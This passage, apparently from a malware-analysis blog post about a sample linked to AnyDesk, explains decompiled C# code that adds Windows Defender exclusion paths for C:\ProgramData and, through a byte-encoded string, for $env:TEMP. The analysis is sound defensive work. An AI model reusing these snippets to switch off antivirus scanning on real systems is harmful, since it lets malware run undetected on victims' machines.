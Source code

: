 <img src="assets/images/blogs/anydesk/defender-exclusion.png" alt="defender exclusion path" width="800" height="800">

It starts by getting the first folder path it it's list, shown below, which resolves to `C:\ProgramData`.

```cs
string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData);
```

Next, it builds the command componants:

```cs
string text2 = "Add-MpPreference";
string text3 = "-ExclusionPath";
```

Following this, it constructs the full exclusion command:

```cs
string text4 = "Add-MpPreference -ExclusionPath \"C:\\ProgramData\""
```

Underneath, there is a bytes block that, when decoded to it's ASCII equivalaent, resolves to `Add-MpPreference -ExclusionPath $env:TEMP`

```cs
byte[] array3 = {
  65, 100, 100, 45, 77, 112, 80, 114, 101, 102,
  101, 114, 101, 110, 99, 101, 32, 45, 69, 120,
  99, 108, 117, 115, 105, 111, 110, 80, 97, 116,
  104, 32, 36, 101, 110, 118, 58, 84, 69, 77,
  80
};
```
